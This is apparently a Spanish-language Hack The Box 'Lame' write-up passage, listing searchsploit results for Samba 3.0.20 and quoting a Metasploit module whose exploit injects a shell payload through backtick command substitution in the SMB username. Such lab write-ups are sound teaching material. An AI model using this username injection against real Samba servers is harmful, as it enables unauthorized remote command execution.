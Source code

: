 ```
Ricart0@kali:/home/kali/HTB/Lame/exploits -> searchsploit Samba 3.0.20     
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                                                                                   | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                                                                         | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                                                    | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                                                                            | linux_x86/dos/36741.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Pillamos el que nos puede identificar con username, nos lo llevamos a nuestro equipo(searchsploit -m unix/remote/16320.rb). Nos metemos en el exploit y vemos esta definicion del exploit:

```
def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

Esto nos muestra como inyectar código desde el la autenticacion. 

## Intrusión
